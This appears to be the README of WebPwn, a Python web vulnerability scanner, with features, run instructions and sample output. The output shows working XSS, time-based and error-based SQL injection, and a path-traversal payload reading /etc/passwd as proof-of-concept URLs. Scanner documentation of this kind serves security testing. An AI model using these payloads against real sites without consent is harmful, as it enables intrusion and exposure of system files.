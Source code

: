 <h1 align="center">WebPwn</h1>
<p align="center"Web Vuln Detector</p>
<p align="center">Web Vulnerability Scanner</p>
<p align="center"> 
   <img src="https://img.shields.io/badge/language-python-blue.svg">
</p>

***

## Features

Web Application Firewall (WAF) detection.

Cross Site Scripting (XSS) tests.

SQL injection time based test.

SQL injection error based test.

Local File Inclusion (LFI) test.

Cross Site Tracing (XST) test.

***

### Download and Run

> git clone https://github.com/farinap5/webpwn.git

> cd webpwn

> python3 webpwn.py http://example.com/page.php?cat=1

***
### Example of Output

```
python3 webpwn.py http://example.com/page.php?cat=1

[*] No WAF Detected.

    WebPwn
    ------
Target: http://example.com/page.php?cat=1

Server: nginx/1.19.0
Data: Mon, 07 Dec 2020 18:24:50 GMT
Powered: PHP/5.6.40-38+ubuntu20.04.1+deb.sury.org+1

[!] Testing XSS
[!] 10 Payloads.
[+] 9 Payloads were found.

[*] Payload found!
[!] Payload: <script>alert("inject")</script>
[!] POC: http://example.com/page.php?cat=<script>alert("inject")</script>

[*] Payload found!
[!] Payload: %3Cscript%3Ealert%28%22inject%22%29%3C%2Fscript%3E
[!] POC: http://example.com/page.php?cat=%3Cscript%3Ealert%28%22inject%22%29%3C%2Fscript%3E

[!] Testing SQLi
[*] Blind SQL injection time based found!
[!] Payload: 1-SLEEP(2)
[!] POC: http://example.com/page.php?cat=1-SLEEP(2)

[*] SQL Error found.
[!] Payload: '
[!] POC: http://example.com/page.php?cat='

[!] Testing LFI
[*] Payload found!
[!] Payload: ../../../../etc/passwd
[!] POC: http://example.com/page.php?cat=../../../../etc/passwd


[!] Testing XST
[*] This site seems vulnerable to Cross Site Tracing (XST)!

```

***

## Discaimer

```
Usage of the webpwn for attack targets without prior mutual consent is illegal. 
It is the end user's responsability to obey all applicable local, state, federal and international laws. 
Developer assume no liability and not responsible for any misuse or damage caused by this program.
```
